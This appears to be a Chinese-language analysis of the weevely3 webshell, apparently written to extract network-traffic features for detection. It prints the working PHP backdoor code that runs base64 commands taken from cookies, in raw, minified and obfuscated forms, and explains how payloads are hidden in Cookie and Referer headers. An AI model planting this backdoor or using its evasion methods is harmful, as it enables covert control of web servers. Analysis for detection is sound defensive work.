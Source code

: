 		u'$c="count";
		$a=$_COOKIE;
		if(reset($a)=="he" && $c($a)>3){
		$k="llo";
		echo "<$k>";
		eval(base64_decode(preg_replace(array("/[^\\w=\\s]/","/\\s/"), array("","+"), join(array_slice($a,$c($a)-3)))));
		echo "</$k>";
		}
		'
&emsp;2. <code> minified_agent = utils.code.minify_php(agent)</code>对原始的webshell进行"净化"操作，去除里面"\n\t"等特殊字符。处理完的源码代码为：<br>

		'$c="count";$a=$_COOKIE;if(reset($a)=="he"&&$c($a)>3){$k="llo";echo"<$k>";eval(base64_decode(preg_replace(array("/[^\\w=\\s]/","/\\s/"),array("","+"),join(array_slice($a,$c($a)-3)))));echo"</$k>";}'
&emsp;3. <code> obfuscated = obfuscator_template.render(agent=agent)</code>这是最核心的代码，使用obfuscator模板对webshell进行"模糊处理"，去除容易被检测的特征。生成的源码为<br>

		u'<?php
		$c="count";$a=$_COOKIE;if(reset($a)=="he"&&$c($a)>3){$k="llo";echo"<$k>";eval(base64_decode(preg_replace(array("/[^\\w=\\s]/","/\\s/"),array("","+"),join(array_slice($a,$c($a)-3)))));echo"</$k>";}
		?>'
&emsp;4.通过对php源代码的走读可以看出legacycookie_php.tpl模板执行结果放在"<$k></$k>"标签中，标签中执行结果通过正则表达式匹配，然后进行base64解码获得。

### 6.4&emsp;验证连接是否成功 ###
1. 通过`_check_interpreter()`函数构造随机打印字符的payload，调用channel.py文件中的send()函数中代码` response = self.channel_loaded.send(
                payload,
                self._additional_handlers()
            )`向三种payload加密方式中分别发送payload。依次执行查看响应的Response_body的值是否与构造payload想打印的值相等来进行判断连接是否成功。
2. 第一次payload发送到stegaref.py的send()函数中，payload经过用户输入的连接密码进行加密，构造request请求头发送http协议，执行php后门文件，通过php文件中生成文件的密码进行解密执行payload，得到相应Response。`response = opener.open(url).read()`得到响应体的值。判断：<br>1.&emsp;响应体为空，说明连接密码生成的payload和真实密码解密的payload不一致，验证失败。<br>2.&emsp;响应体不为空，验证成功。
3. 若第一次验证失败，进行第二次验证，payload会发送到legacycookie.py的send()函数中，第二种payload的加密方式主要为base64编码加密然后在加密后的payload中加入特殊字符进行混淆。所以第二种加密方式不需要php文件中的密码进行解密，payload在php文件中进行base64解压缩执行，执行结果在Response_body中用密码第三位至末尾字符串标签进行包装。通过相同代码`response = opener.open(url).read()`获得响应体。判断：<br>1.&emsp;如果响应体为空，说明php文件没有执行，所以可能为连接url错误。<br>2.&emsp;响应体不为空，通过正则表达式` self.extractor = re.compile("<%s>(.*)</%s>" % (self.password[2:],self.password[2:]),re.DOTALL)`和代码` data = self.extractor.findall(response)`进行匹配密码第三位至末尾和响应体中的标签是否一致，如果一致的话则连接密码正确验证成功，如果不一致说明连接密码错误验证不成功。
4. 前两次均失败则调用第三种payload加密方式，向legacyreferrer.py文件中的send()函数发送payload，第三种payload加密方式为构造referer头

		referer = "http://www.google.com/url?sa=%s&source=web&ct=7&url=%s&rct=j&q=%s&ei=%s&usg=%s&sig2=%s" % (self.password[:2],urllib2.quote(self.url),self.query.strip(),payload[:third],payload[ third:thirds],payload[thirds:])

但是payload的加密方式依然为base64编码加密，所以密码正确与否的验证机制和第二种相同。

## 7.&emsp;weevely数据特征提取 ##
### 7.1&emsp;stegaref_php.tpl模板特征 ###
1. 上文中已经分析，stegaref_php.tpl模板的数据包的攻击payload主要存储于构造的Referer头中。
2. 通过对<code> for referrer_index, referrer_vanilla_data in enumerate(itertools.cycle(self.referrers_vanilla)):</code>这个语句进行debug，可以跟踪到self.referrers_vanilla的所有模板。
3. 跟踪找到referrers.tpl文件在weevely3-master/core/channels/stegaref/路径下，文件中存储，通过stegaref_php.tpl模板构造的Referer头主要有7种形式：<br>
